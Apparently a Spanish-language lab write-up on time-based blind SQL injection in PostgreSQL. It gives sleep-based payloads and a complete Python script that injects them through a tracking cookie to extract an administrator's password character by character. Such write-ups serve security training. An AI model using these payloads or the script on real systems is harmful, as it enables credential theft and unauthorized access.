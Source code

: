 ![[Pasted image 20250728151904.png]]
## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`|
### Conocer la existencia del usuario administrador
****
Consulta basada en tiempo para averiguar la existencia de un usuario PostgreSQL: `'||(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- -`

En caso de que la web tarde 5 segundos en responder, significa que el usuario `administrator` existe.

![[Pasted image 20250728153042.png]]
![[Pasted image 20250728153100.png]]
![[Pasted image 20250728153115.png]]
### Conocer la longitud de la contraseña de administrator
****
Una vez que conocemos la existencia del usuario `administrator` debemos conocer la longitud de la contraseña del mismo. Lo haremos de la misma forma que anteriormente.

Consulta basada en tiempo para conocer la longitud de la contraseña de un usuario PostgreSQL: `'||(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND LENGTH(password) > 19)-- -`

![[Pasted image 20250728154606.png]]
![[Pasted image 20250728154540.png]]
![[Pasted image 20250728154627.png]]

Veamos si la contraseña posee más de 20 caracteres.

![[Pasted image 20250728154908.png]]
![[Pasted image 20250728154627.png]]

La contraseña del usuario `administrator` tiene más de 19 carcteres pero no tiene más de 20, por lo tanto la longitud de la misma es de 20.
### Fuzzear los caracteres de la contraseña
****
Una vez conociendo que la longitud de la contraseña del usuario `administrator` es 20. Con la misma base que utilizamos para averiguar la longitud, averiguaremos cada uno de los caracteres de la contraseña.
## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

|   |   |
|---|---|
|Oracle|`SUBSTR('foobar', 4, 2)`|
|Microsoft|`SUBSTRING('foobar', 4, 2)`|
|PostgreSQL|`SUBSTRING('foobar', 4, 2)`|
|MySQL|`SUBSTRING('foobar', 4, 2)`|

Consulta basada en tiempo para fuzzear la contraseña de un usuario PostgreSQL: `'||(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND SUBSTRING(password,1,1)='a')-- -`

Si el primer caracter de la contraseña de `administrator` es una "a", la web tardará en responder 5 segundos.

## Código del Script

```python
#!/usr/bin/env python3
from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#ctrl + C
signal.signal(signal.SIGINT, def_handler)

page_url = input("Ingrese la url: ")
caracteres = str(string.digits + string.ascii_lowercase + string.ascii_uppercase) #todos los caracteres
cookie = input("Ingrese la cookie: ")
sessionHash = input("Ingrese el hash de session: ")

def makeRequest():
    password = ''

    p1 = log.progress("")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    progressPass = log.progress('Password')

    for posicion in range(1,21): #1..20
        for caracter in caracteres:
            cookies = {
                'TrackingId': "%s'||(SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND SUBSTRING(password,%d,1)='%s')-- -" % (cookie,posicion,caracter),
                'session': sessionHash
            }

            time_start = time.time()

            r=requests.get(url=page_url, cookies=cookies)
            
            time_end = time.time()

            if time_end - time_start >= 3: # Tiempo de espera mayor o igual a 3, caracter correcto
                password += caracter
                progressPass.status(password)
                break


if __name__ == '__main__':
    makeRequest()
```

## Análisis del Código

### Técnica utilizada: Time-Based Blind SQL Injection

Este script implementa una técnica de **blind SQL injection basada en tiempo**. En lugar de buscar contenido específico o generar errores, **mide el tiempo de respuesta** del servidor para determinar si una condición es verdadera o falsa.

### Payload SQL utilizado

```sql
'||(SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND SUBSTRING(password,POSICION,1)='CARACTER')-- -
```

### Desglose del payload

#### 1. **Operador de concatenación `||`**

```sql
'||
```

- Conecta la cookie original con la inyección SQL
- Compatible con PostgreSQL y Oracle
#### 2. **Estructura CASE WHEN con funciones de tiempo**

```sql
(SELECT CASE WHEN (condición) THEN pg_sleep(3) ELSE pg_sleep(0) END ...)
```

- **CASE WHEN**: Estructura condicional
- **THEN pg_sleep(3)**: Si es TRUE → pausa la ejecución 3 segundos
- **ELSE pg_sleep(0)**: Si es FALSE → no hay pausa (0 segundos)

#### 3. **Función específica para PostgreSQL**

```sql
pg_sleep(3)
```

- **pg_sleep()**: Función específica de PostgreSQL
- Pausa la ejecución de la consulta por el número de segundos especificado
- Equivalencias en otras bases de datos:
    - **MySQL**: `SLEEP(3)`
    - **Oracle**: `DBMS_LOCK.SLEEP(3)`
    - **SQL Server**: `WAITFOR DELAY '00:00:03'`

#### 4. **Condición de verificación**

```sql
FROM users WHERE username='administrator' AND SUBSTRING(password,POSICION,1)='CARACTER'
```

- **SUBSTRING()**: Función estándar SQL (vs `SUBSTR` de Oracle)
- Extrae 1 caracter en la posición especificada
- Verifica si coincide con el caracter que estamos probando

### Medición de tiempo de respuesta

```python
time_start = time.time()
r=requests.get(url=page_url, cookies=cookies)
time_end = time.time()

if time_end - time_start >= 3: # Tiempo de espera mayor o igual a 3, caracter correcto
    password += caracter
    progressPass.status(password)
    break
```

#### Funcionamiento de la detección temporal

**Escenario 1: Caracter correcto**

1. `SUBSTRING(password,1,1)='a'` es **TRUE** (asumiendo que 'a' es correcto)
2. Se ejecuta `pg_sleep(3)` → **Pausa de 3 segundos**
3. El tiempo total de respuesta es ≥ 3 segundos
4. El script confirma que el caracter es correcto

**Escenario 2: Caracter incorrecto**

1. `SUBSTRING(password,1,1)='z'` es **FALSE** (asumiendo que 'z' es incorrecto)
2. Se ejecuta `pg_sleep(0)` → **Sin pausa**
3. El tiempo de respuesta es normal (< 3 segundos)
4. El script continúa con el siguiente caracter

![[Pasted image 20250728171415.png]]
### Loguearnos como el usuario administrador
****
![[Pasted image 20250728171531.png]]
![[Pasted image 20250728171604.png]]